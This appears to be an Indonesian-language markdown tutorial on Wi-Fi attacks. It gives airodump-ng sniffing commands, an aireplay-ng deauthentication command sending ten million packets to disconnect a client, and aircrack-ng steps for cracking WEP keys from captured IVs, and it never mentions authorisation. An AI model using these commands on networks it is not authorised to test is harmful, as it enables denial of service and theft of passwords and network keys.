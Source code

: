 # PRE CONNECTION  

## SNIFFING 
untuk melakukan ini anda bahkan tidak perlu terhubung ke wifi. 

### SNIFFING TO 5GHz FREQUENCY
```
airodump-ng --band a wlan0  
```

### SNIFFING TO ALL FREQUENCY
```
airodump-ng --band abg wlan0
```

### SNIFFING FOR SPESIFIC TARGET
```
airodump-ng --bssid mac --channel channelberapa --write namafile wlan0
```

## GATHER INFORMATION
dari hasil snifing di atas maka akan terbentuk file dengan ekstensi .cap. Buka file tersebut dengan wireshark, maka akan terlihat info mengenai seluruh trafik misalnya info device yang digunakan, bahkan passwod dan username. namun kita perlu memperhatikan ENC yang digunakan , jika wifi tersebut menggunakan enc seperti WEP/WPA/WPA2 maka yang tampil di wireshark hanya informasi terenkrip yang tidak bisa kita baca, namun jika ENC nya OPN kita bisa mengintip password nya karena semua nya plain text. 

## DEAUTH ATTACH
kita akan pura pura menjadi client untuk mengirim request deauth ke router, dan sekaligus menjadi router untuk mereply request tersebut ke client

```
aireplay-ng --deauth 10000000 -a mactargetrouter -c mactargetpc wlan0
```
10000000 menentukan berapa banyak paket deauth yang akan dibuat, semakin banyak maka semakin lama target terputus dari jaringan. 

## HOW WEP WORKS
Enkripsi WEP masih digunakan walau sudah sangat jarang. WEP menggunakan algoritma RC4 untuk mengenkrip data. jika client mau kirim data ke router, data akan di enkrip menggunakan key. maka data berubah menjadi gibberish, gibberish kemudian dikirim ke AP, AP akan menerima dan bisa membuka nya karena AP punya key nya. begitu sebaliknya jika AP mau kirim ke client, konsep nya sama. MITM mungkin bisa mensnif semua data yang dikirim, tapi semua terenkrip.  

tidak ada masalah pada algoritma RC4, masalah nya adalah bagaimana WEP mengimplementasikan nya. 

mari kita jabarkan agak detail, client mau kirim data ke router. setiap paket akan dibuatkan uniques key stream oleh WEP, caranya dengan menghasilkan 24bit random initializaton vector, IV akan di tambahkan dengan Key/password (yang digunakan untuk connect ke network) hasilnya adalah keystream. keystream ini digunakan untuk mengencrypt packet menjadi gibberish.
kemudian giberish dan IV(dalam bentuk plain text) dikirim ke router. kenapa IV nya harus diikutkan ? karena agar si router bisa menggenerate keystream untuk mendecrypt gibberish nya. Dan jeleknya IV akan di repeat in busy network, ini membuat WEP vulnerable for statistical attack, Dengan Repeated IV, keystream bisa ditemukan dan akhirnya passwordnya juga bisa ditentukan. 

## CRACK WEP
### CRACK WEP IN BUSY NETWORK
untuk crack WEP kita perlu menangkap IV dalam **jumlah banyak**, menggunakan airodump-ng. dan menganalyse IV sekaligus menjalankan statistical attack dan crack key nya menggunakan menggunakan aircrack-ng. **Ingat Data yang di Capture harus dalam jumlah yang banyak**


```
airodump-ng --bssid mactargetrouter --channel channelberapa --write namafile wlan0 
```

```
aircrack-ng namafile.cap 
```

in some cases kita hanya akan dapat key berformat `nn:nn:nn:nn:nn`, untuk menggunakannya hapus semua tanda `:`. Atau biasanya kita juga bisa mendapat ASCII password yang bisa langung digunakan. 

### CRACK WEP IN NOT BUSY NETWORK
pada network yang sepi, penambahan jumlah data akan sangat lambat, sehingga kita harus menunggu cukup lama.
![AIRODUMP-NG WLAN0 DATA.png](Assets/AIRODUMP-NG%20WLAN0%20DATA.png) 




